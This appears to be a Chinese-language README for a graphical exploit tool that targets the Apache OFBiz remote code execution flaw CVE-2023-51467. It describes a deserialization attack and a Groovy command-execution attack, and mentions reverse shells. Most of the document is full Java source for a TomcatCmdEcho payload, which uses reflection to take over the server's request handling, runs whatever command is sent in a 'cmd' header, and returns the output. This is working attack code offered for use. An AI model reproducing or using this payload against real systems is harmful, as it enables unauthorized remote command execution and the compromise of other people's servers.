


# CVE-2023-51467
图形化 Apache Ofbiz CVE-2023-51467 远程代码执行漏洞利用工具

为了把问题降到最低，避免乱码问题使用全局英文。

来自思极的科技

## 使用问题
该利用工具使用修改过的反序列化直接将命令执行结果进行base64并且返回，命令执行也是同样返回思路，但是ofbiz有个问题就是println输出不了，这里通过错误提醒方式提取命令执行结果。

本工具直接使用，开发者研究的回显方式。可能较低版本有无法利用情况，请注意回显结果。

如果遇到这种问题，请选择Set Host Header 


## 功能介绍
### 反序列化打法
基于CommonsBeanutils1链和TomcatCmdEcho进行利用。如果出现了

The vulnerability exists but the exploitation fails. You need to jump to the deserialization exploit chain, which may lead to unauthorized access.

可以尝试使用ysoserial生成别的链进行利用。



### 命令执行打法
通过Groovy脚本进行命令执行，但是println是无法直接回显，可以直接进行反弹shell。本工具支持命令执行回显，通过List products = delegator.findList方式触发异常并且从中捕获执行结果。


## 关于反序列化数据
反序列化数据使用hktalent大佬的ysoserial-y4er里面集成的TomcatCmdEcho，并且将内部进行拓展从而实现利用。

```Java
package ysoserial.payloads.templates;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import com.sun.syndication.io.impl.Base64;

public class TomcatCmdEcho extends AbstractTranslet {

    static {
        try {
            boolean flag = false;
            ThreadGroup group = Thread.currentThread().getThreadGroup();
            java.lang.reflect.Field f = group.getClass().getDeclaredField("threads");
            f.setAccessible(true);
            Thread[] threads = (Thread[]) f.get(group);
            for (int i = 0; i < threads.length; i++) {
                try {
                    Thread t = threads[i];
                    if (t == null) continue;
                    String str = t.getName();
                    if (str.contains("exec") || !str.contains("http")) continue;
                    f = t.getClass().getDeclaredField("target");
                    f.setAccessible(true);
                    Object obj = f.get(t);
                    if (!(obj instanceof Runnable)) continue;
                    f = obj.getClass().getDeclaredField("this$0");
                    f.setAccessible(true);
                    obj = f.get(obj);
                    try {
                        f = obj.getClass().getDeclaredField("handler");
                    } catch (NoSuchFieldException e) {
                        f = obj.getClass().getSuperclass().getSuperclass().getDeclaredField("handler");
                    }
                    f.setAccessible(true);
                    obj = f.get(obj);
                    try {
                        f = obj.getClass().getSuperclass().getDeclaredField("global");
                    } catch (NoSuchFieldException e) {
                        f = obj.getClass().getDeclaredField("global");
                    }
                    f.setAccessible(true);
                    obj = f.get(obj);
                    f = obj.getClass().getDeclaredField("processors");
                    f.setAccessible(true);
                    java.util.List processors = (java.util.List) (f.get(obj));
                    for (int j = 0; j < processors.size(); ++j) {
                        Object processor = processors.get(j);
                        f = processor.getClass().getDeclaredField("req");
                        f.setAccessible(true);
                        Object req = f.get(processor);
                        Object resp = req.getClass().getMethod("getResponse", new Class[0]).invoke(req);
                        str = (String) req.getClass().getMethod("getHeader", new Class[]{String.class}).invoke(req, new Object[]{"cmd"});
                        if (str != null && !str.isEmpty()) {
                            resp.getClass().getMethod("setStatus", new Class[]{int.class}).invoke(resp, new Integer(200));
                            String[] cmds = System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe", "/c", str} : new String[]{"/bin/bash", "-c", str};
                            byte[] result = base64Encode(((new java.util.Scanner((new ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\A").next()).getBytes()).getBytes();
                           
                            try {
                                Class cls = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
                                obj = cls.newInstance();
                                cls.getDeclaredMethod("setBytes", new Class[]{byte[].class, int.class, int.class}).invoke(obj, result, new Integer(0), new Integer(result.length));
                                resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, obj);
                            } catch (NoSuchMethodException var5) {
                                Class cls = Class.forName("java.nio.ByteBuffer");
                                obj = cls.getDeclaredMethod("wrap", new Class[]{byte[].class}).invoke(cls, new Object[]{result});
                                resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, obj);
                            }
                            flag = true;
                        }
                        if (flag) break;
                    }
                    if (flag) break;
                } catch (Exception e) {
                    continue;
                }
            }

        } catch (Exception e) {
        }
    }
    public static String base64Encode(byte[] bs) throws Exception {
        Class base64;
        String value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
            value = (String) Encoder.getClass().getMethod("encodeToString", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});
        } catch (Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Encoder");
                Object Encoder = base64.newInstance();
                value = (String) Encoder.getClass().getMethod("encode", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});
            } catch (Exception e2) {
            }
        }
        return "<command_result>"+value+"</command_result>";
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```